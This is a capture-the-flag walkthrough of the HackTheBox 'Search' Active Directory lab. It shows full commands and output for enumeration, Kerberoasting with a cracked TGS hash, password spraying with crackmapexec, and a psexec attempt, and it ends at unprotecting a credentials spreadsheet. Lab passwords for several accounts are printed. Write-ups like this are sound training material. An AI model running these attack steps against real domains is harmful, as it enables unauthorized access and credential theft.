---
tags:
  - kerberoasting
  - passwordspray
  - ad_genericall
  - ad_readgmsapassword
  - excel
group: ActiveDirectory
---


- Machine : https://app.hackthebox.com/machines/Search
- Reference : https://0xdf.gitlab.io/2022/04/30/htb-search.html
- Solved : 2025.3.11. (Tue) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Port Scanning**:
        - Identified key services: DNS, Kerberos, LDAP, SMB, HTTP/HTTPS.
        - Discovered domain: `search.htb`, hostname: `RESEARCH`.
    - **Subdomain/Directory Discovery**:
        - Found subdomain `research.search.htb` and endpoint `/staff`.
    - **User Enumeration**:
        - Identified user `hope.sharp` from web content and successfully authenticated using `IsolationIsKey?`.
        
2. **Foothold via SMB**
    - Authenticated as `hope.sharp` and accessed SMB shares.
    - Used `ldapdomaindump` to enumerate domain information.
    - Performed **Kerberoasting** → extracted `web_svc` TGS hash and cracked it → password: `@3ONEmillionbaby`.
    
3. **Password Spray**
    - Reused `web_svc` password across domain accounts.
    - Successfully authenticated as `Edgar.Jacobs`.
    - Accessed `helpdesk` share containing an Excel file with usernames and hidden passwords.
    - Unprotected the Excel file and extracted multiple credentials.
    - Identified and authenticated valid credentials: `sierra.frye : $$49=wide=STRAIGHT=jordan=28$$18`.
    
4. **Certificate-based Access**
    - Accessed `sierra.frye` home directory via SMB and found certificate files (`.p12`, `.pfx`).
    - Cracked both certificate passwords: `misspissy`.
    - Imported certificate into browser to access `/staff` portal → gained PowerShell session.
    
5. **Privilege Escalation via GMSA**
    - BloodHound revealed `sierra.frye` is part of a group with **ReadGMSAPassword** permission on `BIR-ADFS-GMSA`.
    - Extracted GMSA password using PowerShell and derived NT hash.
    - Used GMSA credential to reset password of `tristan.davies`, who is a **Domain Admin**.
    
6. **Domain Admin → SYSTEM Shell**
    - Logged in as `tristan.davies` with new password `bokchee`.
    - Used `impacket-smbexec` to spawn a SYSTEM-level shell on the target host.

### Key Techniques:

- **Enumeration**: Subdomains, directories, LDAP, and SMB shares.
- **Kerberoasting**: Extracted and cracked SPN hash.
- **Password Spray**: Identified reused passwords across accounts.
- **Credential Extraction**: From Excel and certificate files.
- **Certificate Auth Bypass**: Imported PFX to access restricted portal.
- **ReadGMSAPassword Abuse**: Extracted GMSA credentials.
- **GenericAll Privilege Abuse**: Reset Domain Admin password.
- **Privilege Escalation**: Gained SYSTEM shell via impacket tools.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ /opt/custom-scripts/port-scan.sh 10.10.11.129
Performing quick port scan on 10.10.11.129...
Found open ports: 53,80,88,135,139,389,443,445,464,593,636,3268,3269,8172,9389,49667,49675,49676,49702,49716,49739
Performing detailed scan on 10.10.11.129...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-10 10:27 MDT
Nmap scan report for 10.10.11.129
Host is up (0.13s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Search &mdash; Just Testing IIS
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-10 16:27:58Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-10T16:29:29+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_http-title: Search &mdash; Just Testing IIS
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2025-03-10T16:29:29+00:00; 0s from scanner time.
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-10T16:29:29+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-03-10T16:29:29+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Not valid before: 2020-08-11T08:13:35
|_Not valid after:  2030-08-09T08:13:35
|_ssl-date: 2025-03-10T16:29:29+00:00; 0s from scanner time.
8172/tcp  open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2025-03-10T16:29:29+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title.
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Not valid before: 2020-04-07T09:05:25
|_Not valid after:  2030-04-05T09:05:25
|_http-server-header: Microsoft-IIS/10.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49702/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49739/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-03-10T16:28:52
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.07 seconds
```

### dns(53)

```yaml
┌──(kali㉿kali)-[~/htb/search]
└─$ dig axfr @10.10.11.129 search.htb           

; <<>> DiG 9.20.2-1-Debian <<>> axfr @10.10.11.129 search.htb
; (1 server found)
;; global options: +cmd
; Transfer failed.


┌──(kali㉿kali)-[~/htb/search]
└─$ dig any @10.10.11.129 search.htb

; <<>> DiG 9.20.2-1-Debian <<>> any @10.10.11.129 search.htb
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31839
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 4, AUTHORITY: 0, ADDITIONAL: 3

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;search.htb.                    IN      ANY

;; ANSWER SECTION:
search.htb.             600     IN      A       10.10.11.129
search.htb.             3600    IN      NS      research.search.htb.
search.htb.             3600    IN      SOA     research.search.htb. hostmaster.search.htb. 436 900 600 86400 3600
search.htb.             600     IN      AAAA    dead:beef::250

;; ADDITIONAL SECTION:
research.search.htb.    3600    IN      A       10.10.11.129
research.search.htb.    3600    IN      AAAA    dead:beef::58e2:2aaf:f9c7:86a4

;; Query time: 123 msec
;; SERVER: 10.10.11.129#53(10.10.11.129) (TCP)
;; WHEN: Mon Mar 10 11:10:14 MDT 2025
;; MSG SIZE  rcvd: 197
```

New subdomain has been found : `research.search.htb`.

### rpc(135)

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ rpcclient -U '' 10.10.11.129
Password for [WORKGROUP\]:
Cannot connect to server.  Error was NT_STATUS_LOGON_FAILURE
```

### smb(139, 445)

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ crackmapexec smb 10.10.11.129 -u 'anonymous' -p '' --shares
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\anonymous: STATUS_LOGON_FAILURE 
```

### ldap(389)

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ ldapsearch -H ldap://10.10.11.129 -x -b "DC=SEARCH,DC=HTB" -s sub "(&(objectclass=user))"  
# extended LDIF
#
# LDAPv3
# base <DC=SEARCH,DC=HTB> with scope subtree
# filter: (&(objectclass=user))
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```

### https(443)


I used `ffuf` to fuzz subdomains further, but couldn't find anything.

```
ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt:FUZZ -u http://10.10.11.129/ -H 'Host:FUZZ.search.htb'
```

There are employees listed on the page which might be useful later.


```bash
┌──(kali㉿kali)-[~/htb/search/bloodhound]
└─$ gobuster dir -u https://search.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k --timeout 300s
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://search.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 5m0s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 149] [--> https://search.htb/images/]
/Images               (Status: 301) [Size: 149] [--> https://search.htb/Images/]
/css                  (Status: 301) [Size: 146] [--> https://search.htb/css/]
/js                   (Status: 301) [Size: 145] [--> https://search.htb/js/]
/fonts                (Status: 301) [Size: 148] [--> https://search.htb/fonts/]
/IMAGES               (Status: 301) [Size: 149] [--> https://search.htb/IMAGES/]
/Fonts                (Status: 301) [Size: 148] [--> https://search.htb/Fonts/]
/*checkout*           (Status: 400) [Size: 3420]
/CSS                  (Status: 301) [Size: 146] [--> https://search.htb/CSS/]
/JS                   (Status: 301) [Size: 145] [--> https://search.htb/JS/]
/*docroot*            (Status: 400) [Size: 3420]
/*                    (Status: 400) [Size: 3420]
Progress: 19194 / 220561 (8.70%)[ERROR] Get "https://search.htb/staff": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
```


# Auth as `hope.sharp`

After a while enumerating the web page, I found an image with texts.


There's a comment that "Send password to Hope Sharp", and the password is `IsolationIsKey?`.

Personally, I don't think this foothold is realistic, but let's give it a shot.
First, I generated a few username list based on "Hope Sharp" name.

```bash
┌──(kali㉿kali)-[~/htb/search/anarchy/username-anarchy-0.6]
└─$ ./username-anarchy hope sharp > ../../hope_sharp.lst


┌──(kali㉿kali)-[~/htb/search/anarchy/username-anarchy-0.6]
└─$ cat ../../hope_sharp.lst 
hope
hopesharp
hope.sharp
hopeshar
hopes
h.sharp
hsharp
shope
s.hope
sharph
sharp
sharp.h
sharp.hope
hs
```

Let's test with `crackmapexec`.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ crackmapexec smb 10.10.11.129 -u hope_sharp.lst -p 'IsolationIsKey?'
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\hope:IsolationIsKey? STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\hopesharp:IsolationIsKey? STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
```

It returns one valid credential for `hope.sharp` : `IsolationIsKey?`

### smb(139,445) - `hope.sharp`

With the found credential, let's list the shares.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ crackmapexec smb 10.10.11.129 -u hope.sharp -p 'IsolationIsKey?' --shares
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey? 
SMB         10.10.11.129    445    RESEARCH         [+] Enumerated shares
SMB         10.10.11.129    445    RESEARCH         Share           Permissions     Remark
SMB         10.10.11.129    445    RESEARCH         -----           -----------     ------
SMB         10.10.11.129    445    RESEARCH         ADMIN$                          Remote Admin                                                                                          
SMB         10.10.11.129    445    RESEARCH         C$                              Default share                                                                                         
SMB         10.10.11.129    445    RESEARCH         CertEnroll      READ            Active Directory Certificate Services share                                                           
SMB         10.10.11.129    445    RESEARCH         helpdesk                        
SMB         10.10.11.129    445    RESEARCH         IPC$            READ            Remote IPC                                                                                            
SMB         10.10.11.129    445    RESEARCH         NETLOGON        READ            Logon server share                                                                                    
SMB         10.10.11.129    445    RESEARCH         RedirectedFolders$ READ,WRITE      
SMB         10.10.11.129    445    RESEARCH         SYSVOL          READ            Logon server share 
```

### Openning a shell as `hope.sharp` using `impacket-psexec` (failed)

Also, since we have `READ/WRITE` permission on one of the shares, I can open a shell with `impacket-psexec`. 

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ impacket-psexec hope.sharp:'IsolationIsKey?'@10.10.11.129
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.129.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'CertEnroll' is not writable.
[-] share 'helpdesk' is not writable.
[-] share 'NETLOGON' is not writable.
[*] Found writable share RedirectedFolders$
[*] Uploading file eFdBLfJD.exe
[*] Opening SVCManager on 10.10.11.129.....
[-] Error opening SVCManager on 10.10.11.129.....
[-] Error performing the installation, cleaning up: Unable to open SVCManager
```

However, it failed.

### ldapdomaindump

Let's dump the domain using `ldapdomaindump`.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ ldapdomaindump -u search.htb\\hope.sharp -p 'IsolationIsKey?' 10.10.11.129 -o ldap/
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

All domain informations are saved as `html`, `json`, `greppable` files.




# Auth as `web_svc`
### Kerberoasting

Next try was Kerberoasting. Since we've obtained domain credential, we can try kerberoasting with the credential.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ impacket-GetUserSPNs search.htb/hope.sharp:'IsolationIsKey?' -dc-ip 10.10.11.129 
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 06:59:11.329031  <never> 
```

I found a valid SPN named `web_svc`.
Let's request its hash by adding `-request` option.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ impacket-GetUserSPNs search.htb/hope.sharp:'IsolationIsKey?' -dc-ip 10.10.11.129 -request
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation 
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 06:59:11.329031  <never>               


[-] CCache file is not found. Skipping...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$929495407c0f27128661bbaa5769137b$9896be7096bcc2e6111b6b3edcc4fe34d87c225c68605f4073e2facbf7b5025d4e890fa95b0c9e79f22e680236ecfc9780c33db4f2b922f4fcb180b289843208840569d119e9a4785ce2ccc0444a998349ff33d76bb949d32dffb361ad278d4771b107cfcbf42c2b9eb0bdb8ce85faca0a7c6c03ecf32649f3bf686419bc1fde966289ae5f6ba3f83ca96e7194407cc0e8409455de9dee2941d729b8c9d7547f132d6511c9bc9a1e172f76be75f00e12404f78a6a28b10cc2c5437ff4da4c38a81919a68166196d4853843d4ef3aa8eecb8ab5a63f2d01562bdeed04a5db6164b10439447d28cba1c4fc72cfcc23246ac6f146e0d62f2f103ecc1b6f96c7efc5058b5f0f9c7bdfd0fadaf91f7880755a02964af43955c73dbc70ce083d149453f78e5efed9418911ab50ece81450016f681d953281e5783dc8f018deb39d4f0321e74e5142425f79abc3f66dec25d3272eef595072bc62a098ee740494d5f7629b5e920f28f1b70e659cde96248a33d07b78d64f72bfac354f18f318560c9484947269e4b07ecd5bc501c9f711554f600e50e4634a6759c59e1e6850fae00911ee6de9037dfd316bd4866b494b038b68a033330aa0ffa52b11759e6b7871e98e1284ce6ad3e2c15ab64d22f77d65fdd8cb1cfc53d27403db0dd399b8aec41269ccaf30c4a9c0575eb995d9d38e5751c8d1f008477e552200763e90d2622937bda7f0655d7652109cd18a5ab62b4d48ab578eada7e4278138a864ad255ceb2c402f7d669e361317a2fbbce96ef20ab4ab5ed4f21af1b808f37a210707882ba2d0e597de3b0236f2d8be0b9a1294f76f81b54a2c2e6b95f3dc8882bf5f8630030eda06d683e7de255218fc88c477ce8088285d5688f74c87a56203ba57fd8c832c83ddc9dfd0de14a2bf678d1d8853c1c85a42fce89aa22dcf59beb4dc6275d6ab6ce74615d564b3ebe365f450402afcbdad80a99adf5f779931d1adc0b1257539a67ac55dc273e92464ba2d4e92885b375ebbc5bf4a50f4d8fe96b6ab30229bc998402636aa20be6e7624297ab7e19e23d1f50ffdf2afeb9deb1a2bf0c2b7442f9a3c3b9e4009689e182b7a2db5b16ca162e5e1f96a69c91e107491c033cbf039a26ee237e99d5db02df003156b72e94c9f444d3192e44848ca97602c7c67f341bb2ec166d424a8be69136fb2c67a1253a066267df4c7ae059e59cacd13de681baf17aca31cdd8be333fbfa0248c47305474ddd286a6e146a9bdb9431ee26bf3f1db542d10ec6ef5d278aa16a75011e3265c555fa3ce94d2561be20151cbebb5c2913b0a1dbb28940d8a877748cad4d920483dee6cd20df154865977e2ea9c997dd99c27c42ac03663445d43f57f48798612ae7e5793adc997ab2f34a1fccd1e5c0eb3710684ac48d3f73c2f4d734ab52eed39ad5eba3c5692c97dc5c002c332cc63aa2f6d4ffa6bd9392a096267c39334b57ba0a3a
```

Let's crack this hash using `hashcat`.

```bash
┌──(kali㉿kali)-[~/htb/search/smb/CertEnroll]
└─$ hashcat -m 13100 -a 0 web_svc.13100 /usr/share/wordlists/rockyou.txt        
hashcat (v6.2.6) starting

<SNIP>

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$929495407c0f27128661bbaa5769137b$9896be7096bcc2e6111b6b3edcc4fe34d87c225c68605f4073e2facbf7b5025d4e890fa95b0c9e79f22e680236ecfc9780c33db4f2b922f4fcb180b289843208840569d119e9a4785ce2ccc0444a998349ff33d76bb949d32dffb361ad278d4771b107cfcbf42c2b9eb0bdb8ce85faca0a7c6c03ecf3264
...SNIP...
3b0a1dbb28940d8a877748cad4d920483dee6cd20df154865977e2ea9c997dd99c27c42ac03663445d43f57f48798612ae7e5793adc997ab2f34a1fccd1e5c0eb3710684ac48d3f73c2f4d734ab52eed39ad5eba3c5692c97dc5c002c332cc63aa2f6d4ffa6bd9392a096267c39334b57ba0a3a:@3ONEmillionbaby

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*...ba0a3a
<SNIP>
```

The cracked password for `web_svc` is `@3ONEmillionbaby`.


# Auth as `edgar.jacobs`
### Password Spray

There's a comment for the user `web_svc` : "Temp Account created by HelpDesk".
Given the comment, I guessed that there might be other users using the same password.

First, let's prepare a list of domain username.
I can retrieve it from `domain_users.json` file using `jq`.

```bash
┌──(kali㉿kali)-[~/htb/search/ldap]
└─$ jq -r '.[].attributes.sAMAccountName[]' domain_users.json > ../domain_users.txt


┌──(kali㉿kali)-[~/htb/search/ldap]
└─$ head ../domain_users.txt                                            
Tristan.Davies
web_svc
Jordan.Gregory
Claudia.Pugh
Angie.Duffy
Kaylin.Bird
Isabela.Estrada
Haven.Summers
Kayley.Ferguson
Crystal.Greer
```

Then, let's try password spray using `crackmapexec`.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ crackmapexec smb 10.10.11.129 -u domain_users.txt -p '@3ONEmillionbaby' --continue-on-success
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Tristan.Davies:@3ONEmillionbaby STATUS_LOGON_FAILURE 
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\web_svc:@3ONEmillionbaby 
...SNIP...
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby 
```

Here I found one more account of which password is same with `web_svc` : `Edgar.Jacobs`.


# Auth as `sierra.frye`
### smb(139,445) - `Edgar.Jacobs`

 ```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ crackmapexec smb 10.10.11.129 -u Edgar.Jacobs -p '@3ONEmillionbaby' --shares
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Edgar.Jacobs:@3ONEmillionbaby 
SMB         10.10.11.129    445    RESEARCH         [+] Enumerated shares
SMB         10.10.11.129    445    RESEARCH         Share           Permissions     Remark
SMB         10.10.11.129    445    RESEARCH         -----           -----------     ------
SMB         10.10.11.129    445    RESEARCH         ADMIN$                          Remote Admin                                                                                          
SMB         10.10.11.129    445    RESEARCH         C$                              Default share                                                                                         
SMB         10.10.11.129    445    RESEARCH         CertEnroll      READ            Active Directory Certificate Services share                                                           
SMB         10.10.11.129    445    RESEARCH         helpdesk        READ            
SMB         10.10.11.129    445    RESEARCH         IPC$            READ            Remote IPC                                                                                            
SMB         10.10.11.129    445    RESEARCH         NETLOGON        READ            Logon server share                                                                                    
SMB         10.10.11.129    445    RESEARCH         RedirectedFolders$ READ,WRITE      
SMB         10.10.11.129    445    RESEARCH         SYSVOL          READ            Logon server share  
```

`helpdesk` share is additionally readable.

```bash
┌──(kali㉿kali)-[~/htb/search]
└─$ smbclient \\\\10.10.11.129\\helpdesk -U 'Edgar.Jacobs'
Password for [WORKGROUP\Edgar.Jacobs]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                  Dc        0  Tue Apr 14 04:24:23 2020
  ..                                 Dc        0  Tue Apr 14 04:24:23 2020

3246079 blocks of size 4096. 758927 blocks available
```

But it's empty..
What about `RedirectedFolders$` group?
There are users' home directory, and probably the one for Edgar Jacobs is expected to be readable.

```bash
┌──(kali㉿kali)-[~/…/search/smb/RedirectedFolders/edgar.jacobs]
└─$ tree
.
├── Desktop
│   ├── $RECYCLE.BIN
│   │   └── desktop.ini
│   ├── desktop.ini
│   ├── Microsoft Edge.lnk
│   └── Phishing_Attempt.xlsx
├── Documents
│   ├── $RECYCLE.BIN
│   │   └── desktop.ini
│   └── desktop.ini
└── Downloads
    ├── $RECYCLE.BIN
    │   └── desktop.ini
    └── desktop.ini

7 directories, 8 files
```

I download all files in the SMB share.
Among the files, I focused on `Phishing_Attempt.xlsx` file.

### Disclose credentials in xlsx file

There are two tabs in the file.



The first sheet contains statistics only.



On the second sheet, there are `firstname`, `lastname`, and `username`.
However, I suspect the column "C" missing.



It's protected, so I cannot open the column right now.
Let's delete the protection.
First copy the xlsx file.

```bash
┌──(kali㉿kali)-[~/htb/search/xlsx]
└─$ cp Phishing_Attempt.xlsx xlsx.zip
```

Then, openning the zip file, and edit `xl/worksheets/sheet2.xml` file.
Remove the blocked part which is for protection.



After deletion;





It's asking, but I clicked "Update".
And, changed the file name to `xlsx` one.



Put cursor on the divider of B/D columns, and click "Show Columns".



Then I can see all retrieved passwords.

